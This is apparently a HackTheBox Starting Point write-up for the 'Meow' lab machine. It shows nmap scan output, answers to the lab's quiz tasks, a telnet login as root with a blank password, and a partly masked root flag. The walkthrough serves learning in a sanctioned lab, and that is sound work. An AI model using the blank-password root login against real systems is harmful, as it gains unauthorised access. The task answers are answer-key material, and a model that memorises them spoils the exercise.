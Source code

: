 ```yaml
---
title: "Meow"
date: 2022-09-22 
categories: [HackTheBox, Starting Point]
tags: [enumeration,telnet,penetration tester level 1,nmap,openvpn]     # TAG names should always be lowercase
---
```

Connect to Starting Point VPN before starting the machine:
```shell
└─$ sudo openvpn starting_point_YrnCollo.ovpn
```
## Nmap results
```shell
└─$ nmap -sV -sC -T4 10.129.57.107               
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-22 14:22 EAT
Nmap scan report for 10.129.57.107
Host is up (0.31s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT      STATE    SERVICE        VERSION
23/tcp    open     telnet         Linux telnetd
1057/tcp  filtered startron
3370/tcp  filtered satvid-datalnk
32770/tcp filtered sometimes-rpc3
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.21 seconds
```
### Task 1
What does the acronym VM stand for?

Answer: `Virtual Machine`

### Task 2
What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.

Answer: `Shell`

### Task 3
What service do we use to form our VPN connection into HTB labs?

Answer: `openvpn`

### Task 4
What is the abbreviated name for a `'tunnel interface'` in the output of your VPN boot-up sequence output?

Answer: `Tun`

### Task 5
What tool do we use to test our connection to the target with an ICMP echo request?

Answer: `ping`

### Task 6
What is the name of the most common tool for finding open ports on a target?

Answer: `nmap`

### Task 7
What service do we identify on port 23/tcp during our scans?

Answer: `Telnet`

### Task 8
What username is able to log into the target over telnet with a blank password?

Answer: `root`

```shell
─$ telnet 10.129.57.107                                                                                                                                              1 ⨯
Trying 10.129.57.107...
Connected to 10.129.57.107.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█

Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 22 Sep 2022 11:26:05 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             147
  Users logged in:       0
  IPv4 address for eth0: 10.129.57.107
  IPv6 address for eth0: dead:beef::250:56ff:feb9:f05

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~#
```
## Proof/flags
### ifconfig 
```shell
root@Meow:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.57.107  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 dead:beef::250:56ff:feb9:f05  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:f05  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:0f:05  txqueuelen 1000  (Ethernet)
        RX packets 2663  bytes 196762 (196.7 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1718  bytes 99654 (99.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

### Root flag
```shell
root@Meow:~# cat flag.txt 
b40abdfe****66***c61ecba***a4c19
```
